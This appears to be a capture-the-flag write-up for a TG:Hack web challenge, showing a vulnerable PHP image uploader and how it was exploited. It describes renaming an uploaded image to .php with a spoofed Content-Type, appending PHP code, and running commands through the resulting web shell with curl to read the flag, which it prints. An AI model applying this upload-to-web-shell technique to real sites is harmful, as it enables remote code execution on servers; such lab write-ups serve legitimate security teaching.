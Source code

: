 ```yaml
---
layout: menu
title: "Imagicur (web 150)"
---
```


![Imagicur (150 pts)](./screenshots/Imagicur.png)

---

## CHALLENGE INFO
- __CHALLENGE LINK__: https://imagicur.tghack.no/
- __LANDING PAGE__:

  ![homepage](./screenshots/Imagicur_home.png)

  - Page Source:
    ```html
    <html>
    <body>

    <form action="upload.php" method="post" enctype="multipart/form-data">
        Select image to upload:
        <input type="file" name="fileToUpload" id="fileToUpload">
        <input type="submit" value="Upload Image" name="submit">
    </form>
 
    </body>
    </html>
    ```
- __ASSUMED OBJECTIVE__: Exploit a vulnerability in __*upload.php*__

---

## Step 1 : Examine the given source code for __*upload.php*__

- __*upload.php*__
  ```PHP
  <?php
  $target_dir = "uploads/";
  $uplFilename = basename($_FILES["fileToUpload"]["name"]);
  $imageFileType = strtolower(pathinfo($uplFilename,PATHINFO_EXTENSION));
  $filename = uniqid() . ".$imageFileType";
  $target_file = $target_dir . $filename;
  $uploadOk = 1;
  // Check if image file is a actual image or fake image
  if(isset($_POST["submit"])) {
      $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
      if($check !== false) {
          echo "File is an image - " . $check["mime"] . ".";
          $uploadOk = 1;
      } else {
          echo "File is not an image.";
          $uploadOk = 0;
      }
  }

  if($uploadOk == 0) {
	  echo "Failed upload :( Is it a valid image file?";
  } else {
	  move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
	  echo "File available at <a href='$target_file'>$target_file</a>";
  }

  ?>
  ```
  __Notes:__
  - __PATHINFO_EXTENSION__ takes the last given file extension
    - __double extensions__ and __null byte injection__ won't work
  - The __file extension__ of the uploaded file is __appended__ and saved to a __new filename__
  - The uploaded file __needs__ to be an image
  - Successfully uploaded files are save in the __uploads/__ directory

---

## Step 2 : Create a working payload

1. Upload an image and intercept the request using __Burp__

   ![upload](./screenshots/Imagicur_upload.png)

2. Pass the request to __Burp *repeater*__

   ![upload](./screenshots/Imagicur_upload_1.png)

   __Note__:
   - The image was succesfully uploaded.

3. Edit the *request* to contain RCE (Remote Code Execution)
   1. Change the extension of the image to __php__:
      ```
      -----------------------------payload
      Content-Disposition: form-data; name="fileToUpload"; filename="imagicur_payload.php"
      Content-Type: image/png
      ```
   2. Append __PHP code__ at the end of the image data
      
      ![RCE code](./screenshots/Imagicur_upload_2.png)

      __Note__:
      - The file was uploaded with a __*.php*__ extension.

---

## Step 3 : Extract the flag

   ```sh
   curl -d "cmd=ls -lah ../" -G -o- https://imagicur.tghack.no/uploads/5cb9cb05189eb.php
   # ...
   # drwxr-xr-x 1 root     root     4.0K Apr 17 12:53 .
   # drwxr-xr-x 1 root     root     4.0K Apr 17 12:53 ..
   # -rw-r--r-- 1 root     root       35 Apr 16 07:09 flag.txt
   # -rw-r--r-- 1 root     root      262 Apr 16 07:09 index.php
   # -rw-r--r-- 1 root     root      827 Apr 16 07:09 upload.php
   # drwxr-xr-x 1 www-data www-data  20K Apr 19 13:31 uploads

   curl -d "cmd=cat ../flag.txt" -G -o- https://imagicur.tghack.no/uploads/5cb9cb05189eb.php
   # TG19{phony_php_images_can_b_scary}
   ```

---

## FLAG : __TG19{phony_php_images_can_b_scary}__
